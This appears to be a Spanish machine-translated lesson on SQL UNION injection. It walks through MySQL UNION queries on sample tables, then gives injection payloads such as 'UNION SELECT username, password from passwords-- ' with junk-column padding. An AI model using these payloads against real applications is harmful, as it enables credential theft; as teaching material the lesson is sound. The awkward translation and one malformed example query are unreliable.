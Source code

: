 # Union Clause

Hasta ahora, solo hemos estado manipulando la consulta original para subvertir la lógica de la aplicación web y la autenticación de derivación, utilizando el`OR`operador y comentarios. Sin embargo, otro tipo de inyección SQL inyecta consultas SQL todas ejecutadas junto con la consulta original. Esta sección demostrará esto usando el MySQL`Union`cláusula para hacer`SQL Union Injection`.

---

# **Unión**

Antes de comenzar a aprender sobre la inyección de la Unión, primero debemos aprender más sobre la cláusula de la Unión SQL. El[Unión](https://dev.mysql.com/doc/refman/8.0/en/union.html)La cláusula se usa para combinar los resultados de múltiples`SELECT`declaraciones. Esto significa que a través de un`UNION`inyección, podremos`SELECT`y volcar los datos de todo el DBMS, desde múltiples tablas y bases de datos. Intentemos usar el`UNION`operador en una base de datos de muestra. Primero, veamos el contenido del`ports`mesa:

Cláusula de sindicato

```
mysql> SELECT * FROM ports;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| ZZ-21    | Shenzhen  |
+----------+-----------+
3 rows in set (0.00 sec)

```

A continuación, veamos la salida del`ships`tablas:

Cláusula de sindicato

```
mysql> SELECT * FROM ships;

+----------+-----------+
| Ship     | city      |
+----------+-----------+
| Morrison | New York  |
+----------+-----------+
1 rows in set (0.00 sec)

```

Ahora, intentemos usar`UNION`Para combinar ambos resultados:

Cláusula de sindicato

```
mysql> SELECT * FROM ports UNION SELECT * FROM ships;

+----------+-----------+
| code     | city      |
+----------+-----------+
| CN SHA   | Shanghai  |
| SG SIN   | Singapore |
| Morrison | New York  |
| ZZ-21    | Shenzhen  |
+----------+-----------+
4 rows in set (0.00 sec)

```

Como podemos ver,`UNION`combinado la salida de ambos`SELECT`declaraciones en una, así que las entradas del`ports`mesa y el`ships`La tabla se combinaron en una sola salida con cuatro filas. Como podemos ver, algunas de las filas pertenecen al`ports`mesa mientras que otros pertenecen al`ships`mesa.

Nota: Los tipos de datos de las columnas seleccionadas en todas las posiciones deben ser los mismos.

---

# **Incluso columnas**

A`UNION`La declaración solo puede operar en`SELECT`declaraciones con un número igual de columnas. Por ejemplo, si intentamos`UNION`Dos consultas que tienen resultados con un número diferente de columnas, recibimos el siguiente error:

Cláusula de sindicato

```
mysql> SELECT city FROM ports UNION SELECT * FROM ships;

ERROR 1222 (21000): The used SELECT statements have a different number of columns

```

La consulta anterior resulta en un error, como el primero`SELECT`Devuelve una columna y la segunda`SELECT`Devuelve dos. Una vez que tenemos dos consultas que devuelven el mismo número de columnas, podemos usar el`UNION`operador para extraer datos de otras tablas y bases de datos.

Por ejemplo, si la consulta es:

Código:sql

```sql
SELECT * FROM products WHERE product_id = 'user_input'

```

Podemos inyectar un`UNION`consulta en la entrada, de modo que se devuelven filas de otra tabla:

Código:sql

```sql
SELECT * from products where product_id = '1' UNION SELECT username, password from passwords-- '

```

La consulta anterior volvería`username`y`password`entradas del`passwords`tabla, suponiendo que el`products`La tabla tiene dos columnas.

---

# **Columnas sin incluso**

Descubriremos que la consulta original generalmente no tendrá el mismo número de columnas que la consulta SQL que queremos ejecutar, por lo que tendremos que trabajar en torno a eso. Por ejemplo, supongamos que solo teníamos una columna. En ese caso, queremos`SELECT`, podemos poner datos basura para las columnas requeridas restantes para que el número total de columnas que somos`UNION`con permanece igual a la consulta original.

Por ejemplo, podemos usar cualquier cadena como datos basura, y la consulta devolverá la cadena como su salida para esa columna. Si nosotros`UNION`con la cuerda`"junk"`, el`SELECT`la consulta sería`SELECT "junk" from passwords`, que siempre volverá`junk`. También podemos usar números. Por ejemplo, la consulta`SELECT 1 from passwords`siempre volverá`1`como la salida.

Nota: Al llenar otras columnas con datos basura, debemos asegurarnos de que el tipo de datos coincida con el tipo de datos de las columnas, de lo contrario, la consulta devolverá un error. En aras de la simplicidad, utilizaremos los números como nuestros datos basura, que también serán útiles para rastrear nuestras posiciones de carga útil, como discutiremos más adelante.

Consejo: Para la inyección SQL avanzada, es posible que deseemos usar simplemente 'NULL' para llenar otras columnas, ya que 'NULL' se ajusta a todos los tipos de datos.

El`products`La tabla tiene dos columnas en el ejemplo anterior, por lo que tenemos que`UNION`con dos columnas. Si solo quisiéramos obtener una columna 'por ejemplo`username`', tenemos que hacer`username, 2`, de modo que tengamos el mismo número de columnas:

Código:sql

```sql
SELECT * from products where product_id = '1' UNION SELECT username, 2 from passwords

```

Si tuviéramos más columnas en la tabla de la consulta original, tenemos que agregar más números para crear las columnas requeridas restantes. Por ejemplo, si se usa la consulta original`SELECT`en una tabla con cuatro columnas, nuestro`UNION`La inyección sería:

Código:sql

```sql
UNION SELECT username, 2, 3, 4 from passwords-- '

```

Esta consulta volvería:

Cláusula de sindicato

```
mysql> SELECT * from products where product_id UNION SELECT username, 2, 3, 4 from passwords-- '

+-----------+-----------+-----------+-----------+
| product_1 | product_2 | product_3 | product_4 |
+-----------+-----------+-----------+-----------+
|   admin   |    2      |    3      |    4      |
+-----------+-----------+-----------+-----------+

```

Como podemos ver, nuestra salida deseada de '`UNION SELECT username from passwords`'La consulta se encuentra en la primera columna de la segunda fila, mientras que los números llenaron las columnas restantes.